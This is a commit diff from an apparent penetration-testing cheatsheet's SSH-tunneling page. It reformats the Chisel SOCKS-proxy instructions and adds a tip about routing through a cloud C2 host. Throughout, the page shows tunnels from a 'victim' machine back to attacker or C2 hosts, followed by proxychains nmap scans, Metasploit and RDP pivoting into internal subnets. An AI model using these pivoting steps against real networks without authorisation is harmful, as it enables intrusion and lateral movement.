

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Network/Connections/SSH_Tunneling.md, in a window 1280 px wide and 1400 px high, scrolled down 1881 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update SSH_Tunneling.md
Update if chisel server is different

````diff
--- a/docs/Network/Connections/SSH_Tunneling.md
+++ b/docs/Network/Connections/SSH_Tunneling.md
@@ -76,12 +76,12 @@ nc -lnvp 3333
 ```
 * Chisel Socks Proxy
     * Using `reverse` command
-        * On the server (C2[cloud] / Kali VM[internal/labs])
+        1. On the server (C2[cloud] / Kali VM[internal/labs])
             ```bash
             ./chisel server -v -p 8000 --reverse
             sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
             ```
-        * On the client/target/victim machine
+        1. On the client/target/victim machine
             ```bash
             chisel.exe client -v <c2/kali_IP>:8000 R:socks
             or
@@ -89,10 +89,10 @@ nc -lnvp 3333
             or
             chisel.exe client -v 192.168.1.5:8000 R:socks
             ```
-        * On the server (C2[cloud] / Kali VM[internal/labs])
+        1. On the server (C2[cloud] / Kali VM[internal/labs])
             ```bash
             sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
-            ssh -NfD 1080 127.0.0.1 # or your c2 server (ssh -NfD 1080 attackerdomain.com)
+            ssh -NfD 1080 127.0.0.1
             proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
             proxychains msfconsole
             proxychains rdesktop targetIP -u user -p password -g 90%
@@ -100,11 +100,11 @@ nc -lnvp 3333
             proxychains firefox
             ```
     * Using `socks5` command
-        * On the server (C2[cloud] / Kali VM[internal/labs])
+        1. On the server (C2[cloud] / Kali VM[internal/labs])
             ```bash
             ./chisel server -v -p 8000 --socks5
             ```
-        * On the client/target/victim machine
+        1. On the client/target/victim machine
             ```bash
             chisel.exe client -v <c2/kali_IP>:8000 socks
             or
@@ -112,16 +112,20 @@ nc -lnvp 3333
             or
             chisel.exe client -v 192.168.1.5:8000 socks
             ```
-        * On the server (C2[cloud] / Kali VM[internal/labs])
+        1. On the server (C2[cloud] / Kali VM[internal/labs])
             ```bash
             sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
-            ssh -NfD 1080 127.0.0.1 # or your c2 server (ssh -NfD 1080 attackerdomain.com)
+            ssh -NfD 1080 127.0.0.1
             proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
             proxychains msfconsole
             proxychains rdesktop targetIP -u user -p password -g 90%
             proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
             proxychains firefox
             ```
+    * TIP
+        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
+            * Perform step 3 on your Kali instead, no need to do it on the chisel server
+                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`
 
 
 [^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
````
